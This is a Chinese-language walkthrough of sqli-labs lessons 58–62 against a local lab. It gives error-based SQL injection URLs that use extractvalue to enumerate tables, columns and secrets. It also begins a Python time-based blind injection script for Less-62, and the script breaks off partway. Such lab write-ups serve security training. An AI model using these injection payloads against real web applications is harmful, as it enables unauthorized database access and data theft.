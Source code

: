 `http://127.0.0.1/sqli/less-58/?id=1' and extractvalue(1,concat(0x25,(select secret_LQOC from pg5r7v7b4r),0x25))--+`

***

**Less-59**

id无闭合，同上一关

`http://127.0.0.1/sqli/less-59/?id=1 and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES')))--+`

`http://127.0.0.1/sqli/less-59/?id=1 and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='sd9a8g0soe' limit 2,1),0x25))--+`

`http://127.0.0.1/sqli/less-59/?id=1 and extractvalue(1,concat(0x25,(select secret_DVPW from sd9a8g0soe),0x25))--+`

***

**Less-60**

("$id")闭合

`http://127.0.0.1/sqli/less-60/?id=1") and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES'),0x25))--+`

`http://127.0.0.1/sqli/less-60/?id=1") and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='xo7c1hm38d' limit 2,1),0x25))--+`

`http://127.0.0.1/sqli/less-60/?id=1 and extractvalue(1,concat(0x25,(select secret_YJII from xo7c1hm38d),0x25))--+`

***

**Less-61**

闭合为(('$id'))

`http://127.0.0.1/sqli/less-61/?id=1')) and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES'),0x25))--+`

`http://127.0.0.1/sqli/less-61/?id=1')) and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='gfmtwwxgwf'),0x25))`

`http://127.0.0.1/sqli/less-61/?id=1')) and extractvalue(1,concat(0x25,(select secret_4KX6 from gfmtwwxgwf),0x25))--+`

***

**Less-62**

![](https://upload-images.jianshu.io/upload_images/11356161-5c1d63d198b84454.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

看到这个次数我是绝望的

进行延时注入：

脚本：

```python
import requests,string

payload = string.lowercase+string.digits
lenth = 0
result = ''
for i in range(1,15):
    try:
        url = "http://127.0.0.1/sqli/less-62/?id=1') and if(length((select table_name from information_schema.tables where table_schema='CHALLENGES'))='"+str(i)+"',sleep(5),1)--+"
        r = requests.get(url,timeout=5)
    except:
        lenth = i
        break
```